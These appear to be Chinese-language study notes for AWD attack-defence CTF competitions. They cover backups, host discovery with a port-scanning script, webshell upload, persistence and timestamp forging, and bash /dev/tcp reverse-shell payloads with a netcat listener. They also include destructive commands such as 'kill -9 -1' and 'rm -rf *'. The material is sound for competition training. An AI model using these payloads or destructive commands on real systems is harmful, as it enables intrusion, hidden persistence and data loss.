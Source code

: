 
# 环境

## 靶机环境

如果没有安装python，可以尝试安装到有权限写入的目录：
```sh
./configure --prefix=/home/ctf/python32  
make  
make install
```



# 命令
通常用于自动化脚本编写。
#### scp
基于ssh

```sh
# 将本地文件上传到 远程ssh server 端口为12345的目录上 
scp -P 12345 /home/1.zip root@127.0.0.1:/home
```


# 防御

## 源码备份

```sh
# zip
zip -r xxx.zip ./*
unzip xxx.zip -d

# tar
tar -cvf xxx.tar ./* -p # -p 保持文件权限一致
tar -xvf xxx.tar -C /home/ctf/xxx

```

备份到本地、以及源站上`/home/xxx`目录一份，不建议备份到`/tmp`，因为攻击者通过`/var/www/`攻击的访问权限是在`/tmp`以及`/tmp/www/html`目录下
## 信息收集


```sh
id # 获取用户所在组。根据权限的不同，进行网站恢复、不死马的查杀。
ls -l /var/www/html # 获取权限 所属者 所属组
# 权限格式：所有者权限 组权限 其他用户权限

a'A
```


### 主机发现

AWD主机发现
    线下
        大家处于一个网段，根据ip划分
        nmap
    线上
        根据端口划分(web\ssh),可能有其他比赛
        scan.py

区分选手和裁判：
        check
        down
        waf
```python
import requests

ip = 'http://61.147.171.104:'

for i in range(51200,51230):
    url = ip + str(i)
    try:
        req = requests.get(url, timeout=1).text
        if '网络探测demo' in req:
            print(url + '    success')
        else:
            print(url + '    fail')
    except:
        print(url + '    error')

```

### 目录发现

```sh
# 2是标准错误输出，输出到一个不存在的路径，可以随便填，优雅点就填下面的 `/dev/null` is a special device file where any data received by the file is discarded. The null device is often known as a **black hole** as all the data that goes into it is lost forever.
find / -name 'xxx.php' 2> /dev/null  # 注意2>必须写在一起

```

## 主机恢复


```sh
# 以www-data用户执行 （比如使用蚁剑，或自建相关木马脚本然后通过网站执行）
kill -9 -1  # 终止你拥有的全部进程
rm -rf *
# 恢复
```


## 攻击

### 上传

利用内置后门
`file_put_contents('xx', base64_decode(base64_encode('TrojansContent')))`
### 防利用

#### 后门加密码

- 写死密码
- 动态密码
- MD5
- RSA密码
#### 流量混淆

难以让别人通过流量监控知道如何攻击

### 防检测防删除
#### 混淆
- 文件名混淆、或假名
#### 困难删除
- 命名：使用`     .php`或`-- -.php`等不太好手动删除的文件（但可以直接通过FTP工具删除）
- 

#### 时间变化
 有三种时间：
- atime (access time)
- ctime (change time)
- mtime (modified time)

```sh
stat <file> # 可以查看文件状态信息，包括三种时间。
touch -r <oldFile> <newFile> # 可以将`oldFile`和`newFile`时间戳同步，但changeTime似乎会修改失败。
```

#### 不死马
首先需要www-data用户对目录有写权限去上传文件。
免杀
##### 内存马
自身执行一次后，把自己删除，自身已经驻留在内存之中，可以不断执行一些复活等操作，来进行权限维持。

**防御方法**
- 使用内存马的相同的用户（不然可能没有权限），运行`kill -9 -1 && rm -rf *`
当然如果有权限可以采用下面的命令：

```sh
ps aux | grep www-data | awk '{print $2}' | xargs kill -9
#The "ps aux" command lists all running processes on the system. 
#The "|" (pipe) symbol sends the output of the "ps aux" command to the "grep www-data" command, which searches for any processes that have "www-data" in their name. 
#The output of the "grep" command is then sent to the "awk '{print $2}'" command, which extracts the second column (the process ID) from the output. 
```


- 使用条件竞争，写相同的复活脚本，同名文件，对内容进行篡改，然后复活时间小于等于内存马，可以使其失效。

### 反弹Shell
正向连接是指由客户端向服务端发起连接请求，而反向连接则是相反。在反弹shell (reverse shell) 中，由客户端监听指定的 TCP/UDP 端口，由服务端发起连接请求到该端口，建立起shell连接。与常见的 Telnet、ssh等shell相比，不同的是由服务端主动发起。
#### 适用情况
- 由于防火墙等的控制访问策略，客户端无法访问服务端，但服务端可以向外网发起请求
- IP会动态变化，攻击机无法直接连接
- 向局域网中的主机散播木马病毒等，网络环境未知的情况下
- 服务端的AV对正向连接的流量检测非常严格，但是对出网流量校验不足
#### 过程

> 不同的操作系统可能不太一样
> 在不同的反弹shell方式中，都需要攻击者（客户端）进行监听，下文将不再赘述，仅讲述不同的反弹方式
> 需要目标机触发payload造成反弹shell

```sh
# 客户端监听端口
nc -lvvp 9999
# -l           listen mode, for inbound connects
# -v           verbose [use twice to be more verbose]
# -n           numeric-only IP addresses, no DNS
# -p port      local port number (port numbers can be individual or ranges: lo-hi [inclusive])
# Netcat 是 Linux 系统下常用的网络工具，当然也有Windows版本，在 Linux 下使用命令 `nc`，前面的端口监听就是使用 Netcat

# payload1 
bash -i >& /dev/tcp/<ip>/<port> 0>&1 
# payload2 
bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1"

#`/dev/tcp/IP/PORT` 特殊设备文件（Linux一切皆文件），实际这个文件是不存在的，它只是 `bash` 实现的用来实现网络请求的一个接口。打开这个文件就相当于发出了一个socket调用并建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。
#`>&` 将联合符号前面的内容与后面相结合，然后一起重定向给后者。
#`0>&1` 将标准输入standard input (0)与标准输出standard output (1)的内容相结合，然后重定向给前面标准输出的内容。
# -i interactive。即产生一个交互式的shell（bash）。

```


[Linux 反弹shell（二）反弹shell的本质 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2549)
其实原理就是这张图：
![](../../attachments/Pasted%20image%2020230907170754.png)
